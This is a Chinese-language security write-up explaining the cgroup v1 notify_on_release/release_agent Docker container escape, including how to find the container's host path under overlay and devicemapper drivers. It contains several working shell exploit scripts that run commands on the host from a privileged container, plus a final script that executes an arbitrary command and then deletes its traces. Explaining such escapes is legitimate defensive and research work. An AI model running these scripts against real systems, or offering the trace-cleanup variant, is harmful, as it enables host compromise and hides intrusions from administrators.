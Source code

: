# notify_on_release逃逸方式原理

## 公开的EXP
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
## notify_on_release与cgroup
既然是notify_on_release的方式，首先了解下notify_on_release机制是什么，了解notify_on_release前就需要先了解cgroup，cgroup的官方定义如下：

> cgroups是Linux内核提供的一种机制，这种机制可以根据需求把一系列系统任务及其子任务整合（或分隔）到按资源划分等级的不同组内，从而为系统资源管理提供一个统一的框架。

在Linux中cgroup的实现形式表现为一个文件系统，可以通过mount -t cgroup看到系统cgroup的挂载情况

![](media/16330951806464/16334143029012.jpg)
可以看到cgroup提供了很多子系统包括cpu、devices、blkio等
![](media/16330951806464/16334144772530.jpg)
以memory子系统为例看下每个子系统包含哪些文件
![](media/16330951806464/16334162215100.jpg)

其中memory开头的文件对内存进行控制包括内存使用量，oom之后的行为等等，除此之外主要了解下一下几个和逃逸相关的文件
* cgroup.procs：罗列所有在该cgroup中的TGID（线程组ID），即线程组中第一个进程的PID。该文件并不保证TGID有序和无重复。写一个TGID到这个文件就意味着把与其相关的线程都加到这个cgroup中
* tasks:罗列了所有在该cgroup中任务的TID，即所有进程或线程的ID。该文件并不保证任务的TID有序，把一个任务的TID写到这个文件中就意味着把这个任务加入这个cgroup中，如果这个任务所在的任务组与其不在同一个cgroup，那么会在cgroup.procs文件里记录一个该任务所在任务组的TGID值，但是该任务组的其他任务并不受影响。
* notify_on_release：0或1，表示是否在cgroup中最后一个任务退出时通知运行release agent，默认情况下是0，表示不运行，看下官方对notify_on_release的解释
  > If the notify_on_release flag is enabled (1) in a cgroup, then whenever the last task in the cgroup leaves (exits or attaches to some other cgroup) and the last child cgroup of that cgroup is removed, then the kernel runs the command specified by the contents of the "release_agent" file in that hierarchy's root directory, supplying the pathname (relative to the mount point of the cgroup file system) of the abandoned cgroup.  This enables automatic removal of abandoned cgroups. The default value of notify_on_release in the root cgroup at system boot is disabled(0).  The default value of other cgroups at creation is the current value of their parents' notify_on_release settings. The default value of a cgroup hierarchy's release_agent path is empty.

  可以简单理解为提供了以下功能：
  如果notify_on_release的值被设置为1，cgroup下所有task结束的时候（最后一个进程结束或转移到其他cgroup），那么内核就会运行root cgroup下release_agent文件中的对应路径的文件，这里还提到内核会为要执行的程序提供一个参数，但实际测试中没有发现有参数传递。
  * release_agent：
  > release_agent, can be used to register the pathname of a program that may be invoked when a cgroup in the hierarchy becomes empty
  
  指明release_agent文件内容应该指定一个可执行文件路径名。这个路径名是宿主机的路径名也就是文件的真实路径，不是在容器中看到的路径，通常用于自动化卸载无用的cgroup。并且整个文件只能存在于root cgroup，如果在下层创建release_agent文件会提示Permission denied无法创建
  
## 利用原理
  通过对这几个文件的理解，基本可以理清利用原理
1. 需要一个可写的cgroup,至于用cgroup的哪个子系统也就是-o参数应该是都可以的，直接把root cgroup的notify_on_release设置成1显然是不合理的，因为最后一步还需要移除cgroup下的所有进程，所以创建一个子cgroup然后将子cgroup的notify_on_release置为1就不会对原有设置产生影响
  
2. 需要控制一个文件，这个文件有两个特点：
   * 知道这个文件在宿主机路径
   * 在容器中可以修改这个文件内容和执行权限
    
   
   如果能够知道容器在宿主机上真实路径就可以满足这一要求，在容器写任意一个文件然后拼接容器的真实路径即可，exp中通过读mtab的方式获取真实路径，这个正则是在docker使用overlay方式作为存储驱动时才可以使用，除了overlay方式外还有devicemapper、vfs等，每种存储方式获取真实路径的方式并不相同，以devicemapper为例读取mtab看到的/dev/mapper/下的路径而非在真实访问用的路径但还是可以通过他构造在宿主机上的路径，devicemapper在宿主机上的目录默认是/var/lib/docker/devicemapper/mnt/[id]/rootfs，通过`sed -n 's/\/dev\/mapper\/docker\-[0-9]*:[0-9]*\-[0-9]*\-\(.*\) \/\(.*\)/\1/p' /etc/mtab`可以获取到对应的id值，最终host_path为:
     ```
   host_path='/var/lib/docker/devicemapper/mnt/'`sed -n 's/\/dev\/mapper\/docker\-[0-9]*:[0-9]*\-[0-9]*\-\(.*\) \/\(.*\)/\1/p' /etc/mtab`'/rootfs'
    ```
  
3. 清空子cgroup下的cgroup.procs中的所有进程，触发release_agent执行写入的命令，这里有一个问题，cgroup.procs看起来和tasks貌似区别不大，可以简单理解成cgroup.procs是进程级别的管理，tasks是线程级别的管理，在实际测试中，修改`sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"`为`sh -c "echo \$\$ > /tmp/cgrp/x/tasks"`也是同样会触发release_agent的

## 用处不大的tips
  除了找到容器在宿主机的真实路径外，也是有其他方式的，只满足上面这两个条件很容易可以想到挂载目录，如果以以下方式启动docker
  `docker run -it --cap-add='SYS_ADMIN' -v /tmp:/tmp/host_tmp centos bash`
  宿主机把自己的/tmp目录挂载到容器的/tmp/host_tmp目录，那么就可以借助/tmp/host_tmp完成利用，首先在进入容器时通过mount查看当前容器有哪些挂载
  ![](media/16330951806464/16336741095529.jpg)
可以看到挂载到了/tmp/host_tmp,但是看不到在宿主机上是什么路径

![](media/16330951806464/16336742339526.jpg)
通过`cat /proc/self/mountinfo | grep /tmp/host_tmp`可以确定宿主机的/tmp以rw方式挂载到了/tmp/host_tmp，修改exp如下：
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "/tmp/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /tmp/host_tmp/cmd
echo "ps aux > /tmp/output" >> /tmp/host_tmp/cmd
chmod a+x /tmp/host_tmp/cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## 清理痕迹
1. 删除创建的子cgroup
2. 取消/tmp下的cgroup挂载
3. 删除/tmp/cgrp/空目录
4. 删除/cmd文件
5. 删除/output文件
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "$1 > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
sleep 2
cat /output
rmdir /tmp/cgrp/x && umount /tmp/cgrp/ && rm -rf /output /cmd /tmp/cgrp
```
![](media/16330951806464/16337507086945.jpg)


## 参考文档
1. [红蓝对抗中的云原生漏洞挖掘及利用实录](https://security.tencent.com/index.php/blog/msg/183)
2. https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt
3. [cgroups(7) - Linux manual page](https://man7.org/linux/man-pages/man7/cgroups.7.html)
4. [PID/TID/TGID参考](https://www.cnblogs.com/wipan/p/9488318.html)
5. [Docker存储驱动程序](https://docs.docker.com/storage/storagedriver/)
6. [procs 和tasks 的区别](http://linux.laoqinren.net/posts/hierarchy-without-controller-group/#procs-%E5%92%8Ctasks-%E7%9A%84%E5%8C%BA%E5%88%AB)